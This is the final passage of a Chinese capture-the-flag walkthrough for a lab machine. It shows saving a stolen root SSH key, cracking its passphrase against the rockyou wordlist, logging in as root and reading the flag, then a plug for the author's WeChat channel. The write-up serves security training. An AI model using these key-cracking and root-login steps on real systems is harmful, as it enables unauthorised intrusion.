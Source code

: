 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到key，保存好登录ssh

```
vi root_rsa  
chmod 600 root_rsa  
ssh root@10.0.0.105 -i root_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

需要密码，再暴破一次

```
RSAcrack -k root_rsa -w /usr/share/wordlists/rockyou.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到key的密码，可以登录ssh了

```
ssh root@10.0.0.105 -i root_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，拿到root.txt，游戏结束

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

END

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**这篇文章到这里就结束了,喜欢打靶的小伙伴可以关注"伏波路上学安全"微信公众号,或扫描下面二维码关注,我会持续更新打靶文章,让我们一起在打靶中学习进步吧.**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)